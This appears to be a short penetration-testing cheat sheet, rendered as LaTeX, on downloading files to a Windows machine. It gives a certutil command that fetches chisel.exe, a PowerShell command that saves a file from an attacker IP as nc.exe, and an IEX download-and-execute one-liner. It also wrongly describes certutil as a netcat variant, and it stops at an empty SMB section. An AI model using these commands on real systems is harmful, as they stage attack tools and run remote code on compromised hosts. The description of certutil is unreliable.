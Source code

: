 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\hypertarget{download-files-with-certutil}{%
\subsection*{Download files with certutil}\label{download-files-with-certutil}}

\textbf{certutil.exe} is a netcat variant for Windows. It can be use for download files form the internet like a wget tool

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{certutil.}\FunctionTok{exe}\NormalTok{ -f -urlcache -split http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{/chisel.}\FunctionTok{exe}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}temp}
\end{Highlighting}
\end{Shaded}

\hypertarget{download-files-by-using-powershell}{%
\subsection*{Download files by using Powershell}\label{download-files-by-using-powershell}}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{powershell -c }\FunctionTok{iwr}\NormalTok{ -uri http://<attacker_ip>/<file_to_download> -OutFile C:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}nc.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{powershell.}\FunctionTok{exe} \FunctionTok{IEX}\NormalTok{(}\FunctionTok{New-Object}\NormalTok{ Net.}\FunctionTok{WebClient}\NormalTok{).}\FunctionTok{downloadString}\NormalTok{('http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{/<file_to_download_and_execute')}
\end{Highlighting}
\end{Shaded}

\hypertarget{share-smb-directory-with-windows-machine}{%
\subsection*{Share SMB directory with Windows Machine}\label{share-smb-directory-with-windows-machine}}
\end{document}
